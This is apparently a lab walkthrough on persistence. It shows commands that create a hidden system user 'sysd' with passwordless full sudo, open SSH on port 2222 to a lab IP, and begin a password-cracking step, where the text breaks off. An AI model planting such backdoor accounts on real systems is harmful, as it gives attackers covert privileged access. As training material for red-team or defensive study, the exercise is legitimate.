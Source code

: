 # Advanced Bash - Owning the System

## Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
                • sudo useradd sysd

    2.	Give your secret user a password:
                • sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
                • sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
                • sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
                • sudo visudo

After executing the above command, you will be brought into the sudoers file to edit as seen in photo below.
![see photo](/images/picture1.png)

    Then we can add the following code in user privilege specification after root entry:
                • sysd ALL=(ALL:ALL) NOPASSWD:ALL
![see photo](/images/Picture2.png)  

    Test that sudo access works without your password: 
            • su sysd
            Then
            • sudo -l
![see photo](/images/Picture3.png)

## Step 2: Smooth Sailing

    1.	Edit the sshd_config file:
        • sudo nano /etc/ssh/sshd_config
![see photo](/images/Picture4.png)

## Step 3: Testing Your Configuration Update

    1. Restart the SSH service:
        • service ssh restart
    2. Exit the root account:
        • exit
    3. SSH to the target machine using your sysd account and port 2222:
        • ssh sysd@192.168.6.105 -p 2222
    
## Step 4: Crack All The Passwords
    1. SSH back to the system using your sysd account and port 2222:
        • ssh sysd@192.168.6.105 -p 2222
    
